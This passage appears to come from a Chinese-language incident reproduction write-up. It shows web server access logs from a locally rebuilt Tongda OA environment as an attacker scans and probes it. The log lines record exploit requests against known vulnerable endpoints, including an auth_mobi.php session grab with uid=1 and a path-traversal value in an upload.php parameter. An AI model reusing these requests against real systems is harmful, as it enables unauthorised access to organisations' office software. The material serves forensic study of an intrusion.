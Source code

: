 [![](assets/1706145664-589a95609f585216c9bb8e19271ee8fc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123213102-a73aae4a-b9f3-1.png)  
简易记录裁取如下 (由于这里我们再现环境时使用的是本地构建的环境，所以攻击 IP 地址源自我们本地的局域网地址，但是整个流程与云上搭建一样，这里只不过就是少了一个域名注册的点，而这也是一个坑点)：

```plain
192.168.17.1 - - [15/Nov/2022:10:27:09 -0500] "GET / HTTP/1.1"200 4140 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:09 -0500] "GET /static/images/tongda.ico HTTP/1.1"200 894 "http://oa.aaa.com/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:31 -0500] "GET //inc/expired.php HTTP/1.1"200 2840 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:31 -0500] "GET //ispirit/login_code.php HTTP/1.1"200 251 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:32 -0500] "GET //general/ HTTP/1.1"200 2493 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:32 -0500] "GET //mobile/auth_mobi.php?isAvatar=1&uid=1&P_VER=0 HTTP/1.1"200 17 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:33 -0500] "GET //general/data_center/utils/upload.php?action=upload&filetype=nmsl&repkid=/.%3C%3E./.%3C%3E./.%3C%3E./ HTTP/1.1"200 2493 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:33 -0500] "GET //ispirit/login_code.php HTTP/1.1"200 251 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:34 -0500] "GET //general/ HTTP/1.1"200 2493 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:34 -0500] "GET //mobile/auth_mobi.php?isAvatar=1&uid=1&P_VER=0 HTTP/1.1"200 17 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:34 -0500] "GET //inc/expired.php HTTP/1.1"200 2840 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:34 -0500] "GET //module/appbuilder/assets/print.php HTTP/1.1"404 36 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
```